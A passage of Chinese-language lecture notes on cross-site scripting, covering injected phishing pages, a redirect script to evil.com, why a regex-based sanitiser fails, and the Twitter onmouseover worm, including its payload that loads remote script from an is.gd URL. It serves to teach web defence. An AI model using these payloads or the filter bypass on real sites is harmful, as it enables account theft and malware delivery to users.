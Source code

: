攻击者注入脚本，重现登录页面的外观等
虚假页面要求用户提供凭据或其他敏感信息
变体：攻击者将受害者重定向到攻击者的站点

```html
<script>
    document.location = "http://evil.com";
</script>
```

#### 执行漏洞 run exploits

攻击者注入一个脚本，对用户的浏览器或其插件发起大量攻击
如果攻击成功，恶意软件将在受害者的机器上安装，无需任何用户干预
通常，受害者机器成为僵尸网络（botnet）的一部分

#### 解决方案：Sanitisation

- Sanitise 所有用户输入很困难
- Sanitisation 取决于上下文(context-dependent)
	- JavaScript ``<script>用户输入</script>`
	- CSS 值 `a:hover {color: user input }`
	- URL 值 ``<a href="user input">`
- 消毒依赖于攻击(attack-dependent)，例如 JavaScript 与 SQL
- 自己动手 vs 重用

##### 案例：清洁

```js
clean = preg_replace(
    "#<script(.*?)>(.*?)</script(.*?)>#i",
    "SCRIPT BLOCKED",
    $value);

echo $clean;
```

- 问题：
	- 过度限制清理 over-restrictive sanitisation：浏览器接受格式错误（malformed）的输入！
	- 攻击字符串：`<script>恶意（malicious）代码<`
	- 实现（implement） 与 标准（standard） 并不等价

##### 案例：Twitter

- Twitter 的超链接算法为 `<a href="www.site.com">www.site.com</a>`
- 老的清洁算法阻止了 `<script>`但是没有阻止 `"`
- 输入 `http://t.co/@"onmouseover="$.getScript('http:\u002f\u002fis.gd\u002ffl9A7')"/`
会变成

```html
<a href="http://t.co@"
   onmouseover="$.getScript('http:\u002f\u002fis.gd\u002ffl9A7')"/">
   ...
</a>
```
